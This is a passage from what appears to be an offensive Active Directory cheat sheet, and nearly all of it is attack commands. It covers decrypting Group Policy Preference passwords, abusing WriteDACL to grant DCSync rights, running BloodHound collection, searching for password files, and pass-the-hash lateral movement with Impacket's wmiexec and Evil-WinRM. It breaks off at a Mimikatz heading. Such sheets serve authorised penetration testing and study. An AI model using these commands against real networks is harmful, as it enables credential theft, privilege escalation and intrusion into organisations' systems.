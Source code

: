 - **GPP Password Decryption**:
    
    ```bash
    gpp-decrypt <cpassword>
    ```
    

#### 5.13 Exploiting Weak ACLs 

- **Abuse WriteDACL Permissions**:
    
    ```powershell
    Add-DomainObjectAcl -TargetIdentity <target_object> -PrincipalIdentity <attacker_user> -Rights DCSync
    ```
    

# 6. Internal Reconnaissance 

#### 6.1 Data Extraction 

- **SharpHound (BloodHound)**:
    
    ```powershell
    Invoke-BloodHound -CollectionMethod All
    ```
    

#### 6.2 Sensitive File Searching 

- **Invoke-FileFinder**:
    
    ```powershell
    Invoke-FileFinder -SearchWordList passwords.txt
    ```
    

# 7. Lateral Movement, Pivoting, and Tunnelling 

#### 7.1 Pass-the-Hash (PtH) 

- **Impacket’s WMIExec**:
    
    ```bash
    wmiexec.py <domain>/<username>:<NTLM_hash>@<target_ip>
    ```
    
- **Evil-WinRM**:
    
    ```bash
    evil-winrm -i <target_ip> -u <username> -H <NTLM_hash>
    ```
    

#### 7.2 Overpass-the-Hash (Pass-the-Key) 

- **Mimikatz**:
    